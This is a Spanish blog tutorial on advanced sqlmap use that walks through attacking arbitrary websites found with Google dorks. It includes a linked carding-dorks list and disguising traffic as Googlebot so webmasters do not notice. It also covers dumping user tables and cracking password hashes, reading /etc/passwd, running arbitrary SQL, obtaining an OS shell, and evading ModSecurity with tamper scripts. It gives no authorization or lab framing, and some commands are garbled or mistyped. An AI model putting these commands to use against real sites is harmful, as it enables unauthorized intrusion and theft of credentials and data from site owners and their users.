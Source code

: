 ```yaml
---
title: Uso avanzado de sqlmap - sql injection
date: 2018-12-29
categories: [Pentesting, Herramientas]
excerpt: SQL(map) INJECTION
tags: [SQL, Injection]
---
```



## ¿Que es SQLMAP?
---

Es una herramienta desarrollada en el lenguaje de programación Python y sirve para hacer SQL injection automatizado en otras palabras aprovecha las vulnerabilidades de inyección SQL en aplicaciones web en la cual se puede llegar hacer distintas cosas, por ejemplo:  
  
- Enumerar bases de datos  
- Enumerar las tablas y columnas de una base de datos. 
  
- Enumerar los usuarios con su respectiva contraseña.  
  
- Descifrar los hashes de contraseñas .  
  
- Leer archivos específicos del sistema de archivo de un host especifico y mucha mas cosas.  
  
 ![sqlmap](/assets/img/post/04/sqlmap.png) 

### Uso practico
-----
Para empezar tenemos que elegír una Dork aquí les dejare unas 2k+ de Dorks de Google [Dorks](https://itechhacks.com/latest-fresh-carding-dorks-2016/)  
  
```bash  
sqlmap -u [URL] -D privacidaddb --tables --user-agent="Mozilla 5 (compatible , Googlebot/2.1, [http://www.google.com/bot.html)"](https://www.google.com/bot.html)
```

Comenzamos con este código antes de comenzar con lo más emocionante por decirlo así, pero la pregunta es: ¿Para qué sirve esto? Este comando sirve para camuflar nuestra conexión como un robot de google ya que siempre esta vigente a las conecciones vigentes de inicio ¿Que pasa si no hacemos esto? Simplemente dejarias a descubierto la conexion que estamos conectados de una manera textual y el web master se dara cuenta que estamos inyectando su web y hasta puede saber que programa estamos usando, etc.  

### Obtener datos del usuario de la web
-----
  
```bash
sqlmap -u [URL] --current-user
```

Ahora comprobemos si es correcto el usuario que tenemos de la base de datos  
  
```bash
sqlmap -u [URL] --is-dba --current-db 
```

Para ver los privilegios de administradores activados  

```bash
sqlmap -u [URL] --privileges**  
```

Para obtener todos los usuarios de DBS  
  

```bash
sqlmap -u [URL] --users
```
  
Podremos ver en donde corre y que usuario está alojado puede ser root u otro  
  
Para obtener las contraseñas de los usuarios de las dbs  
  
  
```bash
sqlmap -u sqlmap -u [URL] --password
```  
  
  
Nos saldrá un mensaje con unas opciones y tendremos que elegir según las letras ["Y" , "N", "Q"] ¿Por que sale esto? porque las contraseñas de los registros de las bases de datos se codifican automáticamente en Hash y en MD5 son las más conocidas, en fin...  
  
- Y = Es para hacer un ataque de fuerza bruta para descifrar el hash  
  
- N = Es para negar la anterior opción y obtener solo la hash  
  
- Q = Para terminar el proceso hasta ese momento

Ponemos Q y luego nos saldrán 3 opciones y escogemos el diccionario 1 /defauld  
  
Después nos dará la siguiente información que es la contraseña crackeada y el usuario. También podemos hacer una búsqueda más avanzada pero tenemos que tener en cuenta de como usar los nombres en las búsquedas  

```bash
sqlmap -u [URL] -C login --search**  
```  

Nos saldrán dos opciones y elegiremos la primera que es para tener una lista opcional de la búsqueda nos permitirá hacer un dump de las columnas encontradas en la DBS ponemos la opción "a" ¿Por que? esto hará un dump general  


### Obtener información de la web:
---
  
```bash
sqlmap -u [URL] --dbs -u = Target UR (e.g. “http://www.example.com/cgi-bin/item.cgi?item_id=15" --dbs 
``` 
  
Sigamos revisando la base de datos  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] --tables  
```  
  
Después nos saldrá otra tabla usaremos otro comando, pero explicare que las letras en mayúscula, por ejemplo, -D son abreviadas, porque -D es el nombre de la base de datos, o sea **--dbs** recuerda que siempre deben ir en mayúscula **-T** es **--tables**  
  
  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente] --columns
```
  
  
Ahora que tenemos las columnas visibles vamos a extraer datos de una tabla  
  
  
```bash
sqlmap -u [URL] --dump -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente]  
```  
  
Nos puede salir algo similar a esto:  
  
  
  
| id | hash | nombre | correo electrónico | contraseña | permiso | inicio_sistema | system_allow_only |  
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- |  
| 1 | 5DIpzzDHFOwnCvPonu | admin | En blanco | <en blanco> | 3 | En blanco | En blanco | 

  
Usemos otro comando hasta ahora hemos tenido mucha información de la tabla. La columna hash parece tener el hash de contraseña puede descifrarlo y obtener los datos para iniciar sesión lo que hará slqmap es crear un archivo csv que tendrá los datos volcados para facilitar el análisis  
    
En el siguiente comando se usará para tener el banner exacto del servidor de la base de datos cuando nos salga el banner de mysql nos mostrará la versión mysql que se ha estado usando cuando tengas la versión buscamos en google una vulnerabilidad de MySQL a esa versión que tenemos  
  
  
```bash
sqlmap -u [URL] -b
```  
Para leer un archivo de sistema tenemos que tener permisos para la operación de ARCHiVO los unico que podemos leer son los archivos legibles o legibles por el usuario de mysql, por ejemplo:  
  
  
```bash
sqlmap -u [URL] --file-read = / etc / passwd --threads = 10
```
  
  
Solo es ejemplo, pero ¿Qué estamos haciendo? Sqlmap alamencera el archivo en nuestro directorio para que podamos leerlo después  
  
  
```bash
sqlmap -u [URL] --sql-query = "seleccionar ahora ();"
```
  
Lo que hicimos fue ejecutar el comando sql arbitrario el cual sirve para ejecutar consultas sql arbitrarias en la base de datos  

  
### Comandos curiosos 
----
	
```bash
sqlmap -u [URL] --fingerprint -random-agent
```  
	
-u: URL  
  
--fingerprint: Captura el flag arg para analizar  
  
--random-agent: Pide el navegador por defecto**  
  
Definir el parámetro a explotar  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --dbs -p param2
```
  
  
  
Si la url tiene URI´s bonitas  
  
  
```bash  
sqlmap --dbms=mysql -u "http://XXXXXXXXXXX/detail/code/value1*/param2/value2" --dbs
```
  
  
Ejecutar consultas directametne  
  
```bash  
sqlmap --dbms=mysql -u [URL] -D "BASEDEDATOS" --sql-query "SELECT * FROM TABLAS;"
 ```
  
  
Conseguir Shell del sistema si es que es viable  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --os-shell**  
```
	
### Evadiendo el Mod_Security con Tampers de sqlmap
-----

Alguna vez cuando hacemos inyección por GET en alguna web a veces nos aparece un anuncio de Mod_Security al cual no deja inyectar, pero usando sqlmap y con sus Tampers podremos sacarnos de este apuro. Puedes encontrar información de cada Tamper cada archivo tiene su explicación de su funcionalidad solo tiene que ir a sqlmap/tamper/  
  
### ¿Cómo usamos Tamper en SQLMAP? 
----	
	
Es fácil solo se debe utilizar el siguiente comando o agregar la opción  
  
  
```bash
--tamper [Nombre del Tamper]**  
```
	
En otras palabras:
	
![tampers](/assets/img/post/04/tampers.png)

```bash
sqlmap.py -u [URL] --dbms "MySQL" -p [marca_id] --tamper "modsecurityzeroversioned.py" --batch
```
Ahora que sabemos esto de evadir los filtros y los WAF, gracias a la herramienta qué carga las reglas del script de sabotaje para lo mencionado, pero sabías que podemos usar todos en una línea? Ejemplo:  

### Bajar la clase de seguridad y mas

  
Podemos hacer otro ataque en donde haremos un escaneo de la URL vereficando las cookies y a lo último hace un string para poder ver la base de datos y no solo también podremos bajar la clase de seguridad de la página, pero espera antes necesitamos dos cosas URL y cookie podemos obtener esta información con BurpSuite y después usar sqlmap digamos que ya tenemos eso, pero y ahora que? Simplemente ya podemos usar el siguiente comando:  
  
```bash
sqlmap -u '[URL]' --cookie='[cookie]' --string=Surname --dbs
```